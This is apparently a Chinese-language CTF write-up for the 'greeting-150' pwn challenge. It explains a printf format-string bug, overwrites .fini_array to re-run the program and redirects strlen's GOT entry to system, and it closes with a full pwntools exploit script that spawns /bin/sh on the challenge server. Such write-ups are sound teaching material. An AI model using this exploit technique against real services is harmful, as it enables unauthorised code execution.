 # greeting-150

题目来源：https://adworld.xctf.org.cn/task/

这道题漏洞点很明显，不过利用的方法有点复杂，是一个知识盲区，不过通过这道题也补充了这方面的知识点了，看一下这道题的安全防护：

```
Arch:     i386-32-little                                        
RELRO:    No RELRO                                                       
Stack:    Canary found                                            
NX:       NX enabled                                                     
PIE:      No PIE (0x8048000)
```

有 canary 和 NX 的防护，所以栈中构造溢出的可能性降低了，除非包含暴露 canary 的措施，看一下代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-84h]
  char v5; // [esp+5Ch] [ebp-44h]
  unsigned int v6; // [esp+9Ch] [ebp-4h]

  v6 = __readgsdword(0x14u);
  printf("Please tell me your name... ");
  if ( !getnline(&v5, 64) )
    return puts("Don't ignore me ;( ");
  sprintf(&s, "Nice to meet you, %s :)\n", &v5);
  return printf(&s);
}

size_t __cdecl getnline(char *s, int n)
{
  char *v3; // [esp+1Ch] [ebp-Ch]

  fgets(s, n, stdin);
  v3 = strchr(s, 10);
  if ( v3 )
    *v3 = 0;
  return strlen(s);
}
```

代码非常短，而且漏洞点特别好找，由于 s 字符串可以通过 v5 字符串获得，并且 v5 是由用户输入的，所以很明显包含了一个格式化字符串漏洞。

那么这里的问题就是，这道题很明显需要我们构造 system('/bin/sh') 并且执行。我在这里思考到了修改 got 表，但是计算修改了也无法再执行到了，因为漏洞点 printf(&s) 已经是函数的最后了。

所以这里就要使用到一个新的知识点，就是一个程序的 init_array 和 fini_array。

> `.init_array`和 `.fini_array` 节（早期版本被称为 .ctors和 .dtors ）中存放了指向初始化代码和终止代码的函数指针。 `.init_array` 函数指针会在 main() 函数调用之前触发。这就意味着，可以通过重写某个指向正确地址的指针来将控制流指向病毒或者寄生代码。 `.fini_array` 函数指针在 main() 函数执行完之后才被触发，在某些场景下这一点会非常有用。

也就是说 fini_array 中包含的指针如果可以修改为 main 函数或者是 start 函数，那么该进程会从头开始再执行一次。有了这个方法，考察这个程序发现存在 fini_array 段，因此修改 got 的想法是可以实现的，那么这里最好的是修改 strlen 函数的 got，因为它的参数恰巧是用户能输入的，我们只需要将 strlen 的 got 表项设置为 system 函数随后在下一次输入 /bin/sh 就可以完成执行。

上面就是完整的解题思路了，下面贴一下代码：

 ```python
from pwn import *                                                      
from LibcSearcher import *                                              
import time                                                                                                                                                         
conn = remote("220.249.52.133", 38479)                                                   

fini_array = 0x08049934                                               
strlen_got = 0x08049A54                                
start_addr = 0x080484F0                                               
system_plt = 0x08048490                                            
str_len = len('Nice to meet you, ')                                                                                                                                    
print conn.recv()                                                           
print conn.recv()                                                         
str1 = 'AA' + p32(strlen_got + 2) + p32(fini_array + 2) + p32(strlen_got) + p32(fini_array)                             
num1 = 0x804 - str_len - 0x12                                         
print(num1)                                                                
str1 += '%'+str(num1)+'c%12$hn%13$hn'                                      
num2 = 0x8490 - 0x0804                                               
print(num2)                                                               
str1 += '%'+str(num2)+'c%14$hn'                                          
num3 = 0x84F0 - 0x8490                                              
print(num3)                                                               
str1 += '%'+str(num3)+'c%15$hn'                                    
print(str1)                                     
conn.sendline(str1)                              
conn.recvuntil('Please tell me your name... ')            
conn.sendline('/bin/sh')                                      
conn.interactive()
 ```

